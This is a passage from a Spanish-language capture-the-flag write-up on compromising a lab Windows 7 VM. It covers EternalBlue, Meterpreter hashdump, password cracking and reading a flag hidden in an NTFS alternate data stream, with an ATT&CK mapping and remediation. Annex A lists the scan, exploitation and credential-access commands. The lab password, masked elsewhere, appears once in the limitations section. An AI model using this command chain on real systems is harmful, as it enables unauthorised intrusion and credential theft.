

*Figura 14 — Script ejecutado como `NT AUTHORITY\SYSTEM`; 20/21 rutas accesibles y hallazgo de `C:\Users\Administrator\Desktop\flag.txt`.*

### 7.6 Flag oculta en un stream alternativo NTFS

El archivo visible es una nota señuelo de 67 bytes:

```text
[!] Archivo de auditoria confidencial - Protocolo Shadow Brokers
```

Sin embargo, `dir /a /r` reveló un **ADS** de 39 bytes llamado `secret`:

```text
39 flag.txt:secret:$DATA
```

Meterpreter pudo leer el stream directamente:

```text
meterpreter > cat C:/Users/Administrator/Desktop/flag.txt:secret
flag{...}
```



*Figura 15 — `dir /a /r` muestra `flag.txt:secret:$DATA`; la lectura del stream revela la flag.*

**Flag:** `flag{...}`

> **Matiz de acceso:** `student` pertenece al grupo local `Administradores` y el directorio `C:\Users\Administrator\Desktop` concede lectura a `BUILTIN\Users` y `Everyone`; por tanto, con la credencial `student:XXXXX` también se podía leer el stream una vez conocido su nombre. El factor de ocultación era el ADS, no una ACL exclusiva de SYSTEM. La búsqueda se realizó como SYSTEM porque era la vía directa tras EternalBlue y permitió localizar el archivo sin credenciales.

La comprobación de grupos y ACL confirma ese contexto:



*Figura 16 — `student` es miembro de `Administradores`; la ACL de `C:\Users\Administrator\Desktop` concede lectura a `Users` y `Everyone`.*

---

## 8. Cadena de ataque

1. **Descubrimiento:** barrido ARP/ICMP de `172.16.202.0/24`; identificación de la VM VMware `172.16.202.133` por MAC.
2. **Enumeración:** SMB en 135/139/445; Windows 7 Professional 7600 x64; hostname `WIN-N4B35F4APQ5`.
3. **Validación:** `smb-vuln-ms17-010` y `check` de Metasploit confirman MS17-010.
4. **Acceso inicial:** EternalBlue con payload `windows/x64/meterpreter/reverse_tcp`; sesión como `NT AUTHORITY\SYSTEM`.
5. **Post-explotación:** `getuid`, `sysinfo`, `hashdump`.
6. **Credential access:** hash NTLM de `student`/`Zero`; contraseña `XXXXX`; verificación con SMB.
7. **Búsqueda de la flag:** script PowerShell como SYSTEM sobre rutas protegidas; hallazgo de `C:\Users\Administrator\Desktop\flag.txt` y lectura del ADS `flag.txt:secret`.
8. **Movimiento lateral potencial:** reutilización de la cuenta administrativa `student` y acceso a shares `Users`, `C$`, `ADMIN$` e `IPC$`.

---

## 9. Mapeo MITRE ATT&CK

| Táctica | Técnica | ID | Evidencia |
|---|---|---|---|
| Discovery | Network Service Discovery | T1046 | Nmap |
| Discovery | Remote System Discovery | T1018 | `nmap -sn` |
| Discovery | System Information Discovery | T1082 | `sysinfo` |
| Discovery | Account Discovery: Local Account | T1087.001 | `hashdump`, SMB |
| Discovery | File and Directory Discovery | T1083 | Script SYSTEM de búsqueda |
| Initial Access | Exploit Public-Facing Application | T1190 | MS17-010 |
| Execution | Exploitation of Remote Services | T1210 | EternalBlue |
| Privilege Escalation | Exploitation for Privilege Escalation | T1068 | SYSTEM |
| Credential Access | OS Credential Dumping: SAM | T1003.002 | `hashdump` |
| Credential Access | Brute Force: Password Cracking | T1110.002 | Hash NTLM + diccionario dirigido |
| Defense Evasion | Hide Artifacts: NTFS File Attributes | T1564.004 | ADS `flag.txt:secret` |
| Lateral Movement | Remote Services: SMB/Windows Admin Shares | T1021.002 | `smbclient` |
| Valid Accounts | Valid Accounts: Local Accounts | T1078.003 | `student:XXXXX` |

---

## 10. Hallazgos y severidad

| # | Hallazgo | Severidad | Evidencia |
|---|---|---|---|
| 1 | MS17-010 / EternalBlue (CVE-2017-0143) en SMBv1 | **Crítica** | Figuras 5, 6, 7 |
| 2 | Windows 7 Professional 7600 x64 sin parches y fuera de soporte | **Alta** | Figuras 4, 8 |
| 3 | Credenciales débiles y reutilizadas: `student` y `Zero` = `XXXXX` | **Alta** | Figuras 9, 10, 11 |
| 4 | SMBv1 habilitado y expuesto en la red local | **Alta** | Figuras 3, 5 |
| 5 | Firewall deshabilitado y bypass de `utilman.exe` en la consola | **Media** | Preparación autorizada del entorno |
| 6 | Artefactos señuelo (`fLAG.txt` vacío, `pASSWORD` vacío) | **Informativo** | Figura 12 |
| 7 | `student` pertenece al grupo local `Administradores` | **Alta** | Figura 16 |
| 8 | Flag oculta en un stream alternativo NTFS (`flag.txt:secret`) | **Informativo** | Figura 15 |

**Impacto:** un atacante en la misma subred puede obtener ejecución remota como SYSTEM sin autenticación, volcar credenciales locales y reutilizarlas para acceder a shares administrativos. La combinación de Windows 7 sin parches, SMBv1 y contraseñas débiles permite un compromiso total en pocos minutos.

---

## 11. Remediación

### 11.1 Inmediata

1. Aplicar MS17-010 (KB4012212/KB4012215 en Windows 7 SP1) o migrar a un sistema soportado.
2. Deshabilitar SMBv1 y bloquear 139/445 en el perímetro y entre segmentos.
3. Requerir firma SMB y deshabilitar NTLMv1 cuando sea posible.
4. Rotar las contraseñas de `student` y `Zero`; eliminar la reutilización.
5. Retirar `student` del grupo Administradores y usar cuentas administrativas dedicadas (LAPS).
6. Deshabilitar `AutoAdminLogon` y eliminar secretos de autologon.
7. Restaurar `utilman.exe` y volver a habilitar el firewall:

```cmd
copy C:\Windows\System32\utilman_backup.exe C:\Windows\System32\utilman.exe
netsh advfirewall set allprofiles state on
```

### 11.2 Corto plazo

- Migración de Windows 7 a Windows 10/11.
- EDR/antivirus actualizado y listas blancas de aplicaciones.
- Segmentación de red y mínimo privilegio.
- Deshabilitar NetBIOS/LLMNR/UPnP innecesarios.
- Restringir el acceso físico/consola a la VM y habilitar BitLocker.
- Monitorizar cambios en `utilman.exe`, `sethc.exe`, `osk.exe` y reglas de firewall.

### 11.3 Mediano plazo

- Gestión de vulnerabilidades con SLA de parcheo.
- Pruebas periódicas de credenciales débiles y reutilizadas.
- Simulaciones de ataque y revisión de detecciones para SMBv1/EternalBlue.
- Política de contraseñas y prohibición de autologon en equipos compartidos.

---

## 12. Conclusión

El laboratorio cumple su objetivo pedagógico: un Windows 7 sin parches, con SMBv1 expuesto y credenciales débiles, es comprometible de forma remota y total. EternalBlue otorgó una sesión como `NT AUTHORITY\SYSTEM`; el volcado de SAM permitió recuperar la contraseña `XXXXX` de `student` y `Zero`, y la autenticación SMB confirmó que la credencial es válida.

La búsqueda con privilegios SYSTEM en las rutas protegidas localizó la flag en `C:\Users\Administrator\Desktop\flag.txt`, oculta en el stream alternativo NTFS `flag.txt:secret`:

```text
flag{...}
```

Los artefactos `fLAG.txt` y `pASSWORD` del perfil de `student` eran señuelos. El valor de la auditoría está en demostrar la cadena completa de compromiso y en documentar las medidas necesarias para eliminar MS17-010, SMBv1 y las credenciales débiles.

---

## Anexo A — Comandos principales

```bash
# Descubrimiento
nmap -sn 172.16.202.0/24
ip -brief addr && ip route && ip neigh show 172.16.202.133

# Enumeración SMB
nmap -Pn -p 135,139,445,3389,5985 -sV --version-light 172.16.202.133
nmap -Pn -p445 --script smb-os-discovery 172.16.202.133
nmap -Pn -p445 --script smb-vuln-ms17-010 172.16.202.133

# Validación y explotación
msfconsole -q -r NEW/scripts/ms17_010_check.rc
msfconsole -q -r NEW/scripts/ms17_010_exploit.rc

# Post-explotación
# (dentro de Meterpreter)
getuid
sysinfo
hashdump

# Búsqueda de la flag como SYSTEM
# (subir scripts/find_flag_system.ps1 a C:\Windows\Temp)
powershell -NoProfile -ExecutionPolicy Bypass -File C:\Windows\Temp\find_flag_system.ps1
dir "C:\Users\Administrator\Desktop" /a /r

# Lectura del stream alternativo (Meterpreter)
cat C:/Users/Administrator/Desktop/flag.txt:secret

# Verificación de credenciales
python3 -c "import hashlib; print(hashlib.new('md4','XXXXX'.encode('utf-16le')).hexdigest())"
smbclient //172.16.202.133/Users -U 'student%XXXXX' -m SMB2 -c 'ls'
```

## Anexo B — Evidencia

| Archivo | Descripción |
|---|---|
| `screenshots/terminal_01_red_arp.png` | Interfaz, rutas y ARP del objetivo |
| `screenshots/terminal_02_descubrimiento.png` | Descubrimiento de hosts |
| `screenshots/terminal_03b_puertos_abiertos.png` | Puertos SMB abiertos |
| `screenshots/terminal_04a_smb_vuln.png` | Confirmación MS17-010 |
| `screenshots/terminal_04b_smb_os.png` | Descubrimiento de Windows 7 |
| `screenshots/terminal_05_msf_check.png` | Check de Metasploit |
| `screenshots/terminal_06_sessions_system.png` | Sesión Meterpreter como SYSTEM |
| `screenshots/terminal_07_meterpreter_system.png` | `getuid` y `sysinfo` |
| `screenshots/terminal_08_hashdump.png` | Volcado de hashes SAM |
| `screenshots/terminal_09_flag_check.png` | Comprobación de flag/señuelos |
| `screenshots/terminal_10_ntlm_hash.png` | Verificación del hash NTLM |
| `screenshots/terminal_11_smbclient_student.png` | Acceso SMB con `student` |
| `screenshots/terminal_12_system_recheck.png` | Reconfirmación de la sesión SYSTEM |
| `screenshots/terminal_13_svi_system.png` | Acceso a `System Volume Information` y `config` como SYSTEM |
| `screenshots/terminal_14_system_flag_search.png` | Búsqueda SYSTEM y hallazgo de `flag.txt` |
| `screenshots/terminal_15_ads_flag.png` | Stream alternativo `flag.txt:secret` y flag |
| `screenshots/terminal_16_admin_group_acl.png` | Grupo `Administradores` y ACL del escritorio |

Los registros de terminal en texto se encuentran en `evidence/` y el manifiesto de integridad en `evidence/SHA256SUMS.txt`.

## Anexo C — Limitaciones

- La habilitación del vector requirió una acción autorizada sobre la consola de VMware: bypass de `utilman.exe` y `netsh advfirewall set allprofiles state off`. El primer escaneo, previo a esa acción, mostró 445/tcp filtrado.
- No se realizó un escaneo completo de todos los puertos tras la explotación; el alcance se centró en SMB y en la cadena MS17-010.
- La flag se localizó en `C:\Users\Administrator\Desktop\flag.txt` como ADS `flag.txt:secret`. Aunque la búsqueda se realizó como SYSTEM, la ACL del directorio permite lectura a `BUILTIN\Users` y `Everyone`, y `student` es administrador local; el stream también podía leerse con `student:MS17-010` una vez conocido su nombre. El factor de ocultación era el ADS, no una ACL exclusiva de SYSTEM.
- La sesión SYSTEM seguía activa al cierre de esta documentación. Si se desea dejar el laboratorio limpio, deben ejecutarse los comandos de restauración de `utilman.exe` y del firewall indicados en la sección 11.1.

---

**Fin del writeup.**
